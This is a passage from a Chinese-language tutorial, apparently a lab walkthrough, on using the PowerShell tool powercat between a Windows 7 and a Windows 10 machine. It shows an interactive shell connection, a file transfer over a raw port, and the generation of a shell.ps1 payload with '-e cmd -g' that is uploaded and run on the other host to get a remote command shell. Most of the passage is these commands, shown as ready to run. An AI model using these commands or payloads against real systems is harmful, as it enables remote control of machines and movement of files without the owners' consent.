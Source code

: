 ```
powercat -c 192.168.2.13 -p 4444 -v -ep

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3t6w9vYVoAbSr4YicEMbQicqUoibXBJrXh5RsKe5uQnBTcoQJ5icbhacUu6A/640?wx_fmt=png)

  

（5）通过 powercat 传输文件

在 Win7 下有一个 saul.txt 的文件在 C:\Users\root\Desktop 目录下：

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3ticSG6H2iahLbV1icU3y8Um57O5UWWX0oqCEJgsj6tNn80HlNLwHmG55Lg/640?wx_fmt=png)

  

如果想要吧 saul.txt 文件传输到 Win10，就执行如下命令：（-of 输出文件名）

```
powercat -l -p 9999 -of saul.txt -v

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3t9JdM3HGZYgyGTD90srF3hRqlSfhCbOtXPibXX48kC1xn9QKWaHs7iaHA/640?wx_fmt=png)

  

然后我们再 Win10 执行如下命令下载文件到本地：（-i 输入文件名）

```
powercat -c 192.168.2.13 -p 9999 -i saul.txt -v

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tsRX22e3CiaW2s8KQwzgb4X45MTdichM4ZjibA2nJj4Uyz7196ZzlOdRRA/640?wx_fmt=png)

  

此时两个文件以及传输完毕，连接也不会自动断开。在 Win10 中，可以在文件末尾追加需要的内容，如果不需要追加内容那么按住 Ctrl+C 键断开连接。

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tCs01SewKicibgjlcD4ficg5u1OtwSbcLc5DHkj5kDEYuXRmVibHpGBU9Dw/640?wx_fmt=png)

  

（6）用 Powercat 生成 Payload 反弹 shell

用 Powercat 生成的 Payload 也有正向和反向之分，且可以对其编码。

尝试生成一个简单的 Payload，在 Win7 中执行如下命令：

```
powercat -l -p 8000 -e cmd -v -g >> shell.ps1

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tHPus5xHB5zMzeMrRbo4hAb9bYtN36WwltyGZHWmXcpMljwibbgCficTw/640?wx_fmt=png)

  

然后把 shell.ps1 上传给 Win10，并运行，之后 Win7 执行命令成功反弹 shell：

```
powercat -c 192.168.2.4 -p 8000 -v

```
